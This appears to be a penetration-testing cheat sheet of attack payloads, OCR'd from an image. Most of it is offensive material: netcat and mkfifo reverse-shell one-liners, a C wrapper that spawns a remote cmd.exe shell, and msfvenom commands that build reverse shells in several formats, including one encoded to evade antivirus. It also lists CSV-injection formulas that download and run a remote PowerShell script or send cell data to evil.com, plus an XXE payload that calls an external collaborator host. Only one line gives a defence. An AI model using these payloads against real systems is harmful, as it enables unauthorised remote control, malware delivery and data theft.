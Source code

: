 nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash# With -e flag
nc -e /bin/sh <your ip> <your port># Without -e flag
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
--------------------------------------------------------------------C
#include <stdlib.h>
int main () {
system("nc.exe -e cmd.exe <myip> <myport>");
return 0;
}
--------------------------------------------------------------------

Msfvenom

--------------------------------------------------------------------
Msfvenom: 
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -o shell_reverse.exe
--------------------------------------------------------------------to avoid AV detection, use encryption:
msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
--------------------------------------------------------------------php:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.php
--------------------------------------------------------------------
asp: 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your ip> LPORT=<your port> -f asp > shell.asp
--------------------------------------------------------------------war:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f war > shell.war
--------------------------------------------------------------------JSP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<your ip> LPORT=<your port> -f raw > shell.jsp
--------------------------------------------------------------------binary:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
--------------------------------------------------------------------List linux meterpreter payloads:
msfvenom --list | grep xxxx
--------------------------------------------------------------------Send linux shell to meterpreter:
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost= lport= -f elf -o msf.bin (set multi handler then)
--------------------------------------------------------------------



CSV Injection - At present, the best defense strategy we are aware of is prefixing cells that start with ‘=’ , ‘+’ or ‘-’ with an apostrophe. 
------------------------------------------
@SUM(1+9)*cmd|' /C calc'!A0
=cmd|’/C calc.exe’!Z0
=cmd|’/Cpowershell Import-Module BitsTransfer; Start-BitsTransfer - source https://141.io/shell.ps; Invoke-Item shell.ps;’!z
=cmd|’/Ccalc.exe’!z
=HYPERLINK(“http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.”)

 
XXE
------------------------------------------
<fkpxmlns="http://a.b/"xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xsi:schemaLocation="http://a.b/http://wiiyjpk3neg58qeu4vb5j8vpcgi86x.burpcollaborator.net/fkp.xsd">fkp</fkp>
